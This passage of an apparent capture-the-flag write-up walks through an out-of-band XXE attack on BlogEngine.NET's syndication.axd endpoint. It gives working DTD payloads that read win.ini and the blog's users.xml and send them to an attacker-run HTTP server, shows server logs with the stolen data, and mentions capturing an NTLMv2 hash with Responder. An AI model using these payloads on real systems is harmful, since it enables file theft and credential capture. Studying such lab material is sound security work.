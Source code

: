 Trying other ports commonly used by Windows that might be excluded from the firewall, we have success with port 445, which is used by the SMB protocol.

![BlogEngine.NET Remote XML Success](web_blog_remote_xml_success.webp){: width="900" height="300" }

```console
$ python3 -m http.server 445
Serving HTTP on 0.0.0.0 port 445 (http://0.0.0.0:445/) ...
10.10.16.197 - - [24/Feb/2024 12:36:47] code 404, message File not found
10.10.16.197 - - [24/Feb/2024 12:36:47] "GET /oob.xml HTTP/1.1" 404 
```

> At this point we can also use a request like `http://10.10.16.197/blog/syndication.axd?apml=\\10.11.72.22\lol\test.xml` and set up `responder` to capture the `NTLMv2` hash for user `merlin`. But I was unable to crack the captured hash.
{: .prompt-tip }

Preparing the `oob.xml` and `exfil.dtd` files according to the article.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://10.11.72.22:445/exfil.dtd">
<foo>&e1;</foo>
```
{: file="oob.xml"}

```xml
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://10.11.72.22:445/?exfil=%p1;'>">
%p2;
```
{: file="exfil.dtd"}

Starting a HTTP server on port 445 to serve these files and making the `http://10.10.16.197/blog/syndication.axd?apml=http://10.11.72.22:445/oob.xml` request. We get the contents of `C:/WINDOWS/win.ini` file.

```console
$ python3 -m http.server 445
Serving HTTP on 0.0.0.0 port 445 (http://0.0.0.0:445/) ...
10.10.16.197 - - [24/Feb/2024 12:54:19] "GET /oob.xml HTTP/1.1" 200 -
10.10.16.197 - - [24/Feb/2024 12:54:20] "GET /exfil.dtd HTTP/1.1" 200 -
10.10.16.197 - - [24/Feb/2024 12:54:20] "GET /?exfil=;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1 HTTP/1.1" 200 -
```
{: .wrap }

Now, modifying the `exfil.dtd` to exfiltrate the `users.xml` file we discovered before.

```xml
<!ENTITY % p1 SYSTEM "file:///C:/inetpub/wwwroot/blog/App_Data/users.xml">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://10.11.72.22:445/?exfil=%p1;'>">
%p2;
```
{: file="exfil.dtd"}

Making the same request as before, we get the contents of `users.xml`.
